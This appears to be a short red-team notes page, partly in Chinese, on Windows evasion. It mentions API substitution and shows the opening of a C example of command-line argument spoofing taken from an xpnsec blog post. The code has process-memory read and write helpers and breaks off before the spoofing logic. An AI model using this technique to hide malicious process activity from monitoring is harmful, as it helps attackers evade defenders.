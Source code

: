 ### API替换
如CreateThreadEx 替换CreateThread

### Spoofing CommandLine Argument
https://blog.xpnsec.com/how-to-argue-like-cobalt-strike/

```c
#include <iostream>
#include <windows.h>
#include <winternl.h>

#define CMD_TO_SHOW "powershell.exe -NoExit -c Write-Host 'This is just a friendly argument, nothing to see here'"
#define CMD_TO_EXEC L"powershell.exe -NoExit -c Write-Host Surprise, arguments spoofed\0"

typedef NTSTATUS(*NtQueryInformationProcess2)(
IN HANDLE,
IN PROCESSINFOCLASS,
OUT PVOID,
IN ULONG,
OUT PULONG
);

void* readProcessMemory(HANDLE process, void *address, DWORD bytes) {
SIZE_T bytesRead;
char *alloc;

alloc = (char *)malloc(bytes);
if (alloc == NULL) {
return NULL;
}

if (ReadProcessMemory(process, address, alloc, bytes, &bytesRead) == 0) {
free(alloc);
return NULL;
}

return alloc;
}

BOOL writeProcessMemory(HANDLE process, void *address, void *data, DWORD bytes) {
SIZE_T bytesWritten;

if (WriteProcessMemory(process, address, data, bytes, &bytesWritten) == 0) {
return false;
}

return true;
}

int main(int argc, char **canttrustthis)
{
STARTUPINFOA si;
PROCESS_INFORMATION pi;
CONTEXT context;
BOOL success;
PROCESS_BASIC_INFORMATION pbi;
DWORD retLen;
SIZE_T bytesRead;
PEB pebLocal;
RTL_USER_PROCESS_PARAMETERS *parameters;

printf("Argument Spoofing Example by @_xpn_\n\n");
```